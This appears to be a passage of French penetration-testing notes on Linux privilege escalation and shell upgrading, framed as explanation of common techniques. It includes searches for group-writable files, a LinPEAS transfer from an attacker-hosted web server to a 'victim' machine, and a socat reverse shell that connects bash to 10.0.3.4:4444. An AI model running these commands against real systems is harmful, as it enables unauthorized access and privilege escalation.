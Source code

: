 ## Permissions de groupe laxistes
* **Base de la faille** : Si un fichier ou un répertoire a des permissions de groupe inappropriées, cela peut permettre à des utilisateurs non autorisés d'écrire ou de modifier ces fichiers.
* **Comment c'est possible** : Si un utilisateur fait partie d'un groupe qui peut écrire dans un fichier exécuté par un utilisateur avec des privilèges élevés, il peut modifier ce fichier pour inclure du code malveillant.
1. Lister les répertoires ou mon groupe est présent 
```
find / -group GROUP_NAME -perm -g+w 2>/dev/null
```
## Faiblesses de sécurité dans le noyau
* **Base de la faille** : Des vulnérabilités dans le noyau peuvent permettre à un attaquant d'élever ses privilèges de `user` à `root`.
* **Comment c'est possible** : Si un utilisateur peut exploiter une vulnérabilité du noyau, comme une condition de course, il peut potentiellement obtenir un accès `root`. Des outils comme `searchsploit` peuvent être utilisés pour trouver des exploits connus pour une version de noyau spécifique.
1. Afficher les informations du noyau
```
uname -a
```

## Linpeas
1. Télécharger LinPeas et lancer un serveur Web python pour transférer le script
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 80 #Host
```
2. Placer la cible dans un répertoire ou elle peut écrire pour télécharger
```
cd /tmp/
```
3. Télécharger depuis la victime le script et le rendre executable 
```
wget [IP]/linpeas.sh
curl [IP]/linpeas.sh > linpeas.sh
chmod +x linpeas.sh
```

# 5) Amelioration de shells

## Python
1. Importer le module pty pour améliorer le shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
## Socat 
1. Sur l'attaquant 
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
2. Sur la machine cible
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
## Stty
1. Sur la cible
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
```